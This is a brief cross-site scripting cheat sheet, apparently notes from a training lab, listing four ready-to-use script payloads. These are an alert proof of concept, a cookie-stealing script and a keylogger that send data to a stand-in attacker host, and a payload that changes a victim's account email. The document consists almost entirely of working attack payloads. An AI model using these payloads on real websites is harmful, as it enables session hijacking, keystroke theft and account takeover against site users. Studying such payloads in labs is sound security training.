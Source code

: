 
# XSS: Cross-site Scripting

- Proof Of Concept <script>alert('XSS');</script>
- Session Stealing <script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>
- Key Logger <script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>
- Business Logic <script>user.changeEmail('attacker@hacker.thm');</script>
